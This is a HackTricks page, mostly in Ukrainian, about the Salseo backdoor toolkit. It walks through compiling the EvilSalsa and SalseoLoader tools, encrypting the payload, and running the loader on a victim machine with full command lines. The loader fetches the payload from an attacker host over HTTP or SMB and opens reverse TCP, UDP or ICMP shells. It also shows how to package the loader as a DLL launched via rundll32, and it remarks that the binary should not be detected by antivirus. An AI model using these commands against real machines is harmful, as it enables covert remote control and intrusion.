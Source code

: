 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Завантажте вихідний код з github і скомпілюйте **EvilSalsa** та **SalseoLoader**. Вам потрібно буде встановити **Visual Studio** для компіляції коду.

Скомпіліруйте ці проекти для архітектури віконного комп'ютера, на якому ви будете їх використовувати (якщо Windows підтримує x64, скомпіліруйте їх для цієї архітектури).

Ви можете **вибрати архітектуру** в Visual Studio у **лівій вкладці "Build"** у **"Platform Target".**

(\*\*Якщо ви не можете знайти ці опції, натисніть на **"Project Tab"** і потім на **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Потім збудуйте обидва проекти (Build -> Build Solution) (У логах з'явиться шлях до виконуваного файлу):

![](<../.gitbook/assets/image (381).png>)

## Prepare the Backdoor

По-перше, вам потрібно буде закодувати **EvilSalsa.dll.** Для цього ви можете використовувати python-скрипт **encrypterassembly.py** або скомпілювати проект **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Добре, тепер у вас є все необхідне для виконання всіх Salseo речей: **закодований EvilDalsa.dll** та **бінарний файл SalseoLoader.**

**Завантажте бінарний файл SalseoLoader.exe на машину. Вони не повинні бути виявлені жодним AV...**

## **Виконання бекдору**

### **Отримання TCP зворотного шеллу (завантаження закодованого dll через HTTP)**

Не забудьте запустити nc як слухача зворотного шеллу та HTTP сервер для обслуговування закодованого evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Отримання UDP зворотного шеллу (завантаження закодованого dll через SMB)**

Не забудьте запустити nc як прослуховувач зворотного шеллу та SMB сервер для надання закодованого evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Отримання ICMP зворотного шеллу (закодована dll вже всередині жертви)**

**Цього разу вам потрібен спеціальний інструмент на клієнті для отримання зворотного шеллу. Завантажте:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Вимкніть ICMP відповіді:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Виконати клієнта:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Всередині жертви, давайте виконаємо salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Компіляція SalseoLoader як DLL, що експортує основну функцію

Відкрийте проект SalseoLoader за допомогою Visual Studio.

### Додайте перед основною функцією: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Встановіть DllExport для цього проекту

#### **Інструменти** --> **Менеджер пакетів NuGet** --> **Керувати пакетами NuGet для рішення...**

![](<../.gitbook/assets/image (881).png>)

#### **Шукайте пакет DllExport (використовуючи вкладку Перегляд) і натисніть Встановити (і прийміть спливаюче вікно)**

![](<../.gitbook/assets/image (100).png>)

У вашій папці проекту з'явилися файли: **DllExport.bat** та **DllExport\_Configure.bat**

### **В**идалити DllExport

Натисніть **Видалити** (так, це дивно, але повірте, це необхідно)

![](<../.gitbook/assets/image (97).png>)

### **Вийдіть з Visual Studio та виконайте DllExport\_configure**

Просто **вийдіть** з Visual Studio

Потім перейдіть до вашої **папки SalseoLoader** і **виконайте DllExport\_Configure.bat**

Виберіть **x64** (якщо ви плануєте використовувати його всередині x64 системи, це був мій випадок), виберіть **System.Runtime.InteropServices** (всередині **Namespace для DllExport**) і натисніть **Застосувати**

![](<../.gitbook/assets/image (882).png>)

### **Відкрийте проект знову у Visual Studio**

**\[DllExport]** більше не повинно позначатися як помилка

![](<../.gitbook/assets/image (670).png>)

### Зберіть рішення

Виберіть **Тип виходу = Бібліотека класів** (Проект --> Властивості SalseoLoader --> Застосування --> Тип виходу = Бібліотека класів)

![](<../.gitbook/assets/image (847).png>)

Виберіть **платформу x64** (Проект --> Властивості SalseoLoader --> Збірка --> Цільова платформа = x64)

![](<../.gitbook/assets/image (285).png>)

Щоб **зібрати** рішення: Збірка --> Зібрати рішення (в консолі виходу з'явиться шлях до нової DLL)

### Тестуйте згенеровану DLL

Скопіюйте та вставте DLL туди, де ви хочете її протестувати.

Виконайте:
```
rundll32.exe SalseoLoader.dll,main
```
Якщо помилка не з'являється, ймовірно, у вас є функціональний DLL!!

## Отримати оболонку, використовуючи DLL

Не забудьте використовувати **HTTP** **сервер** і налаштувати **nc** **слухача**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
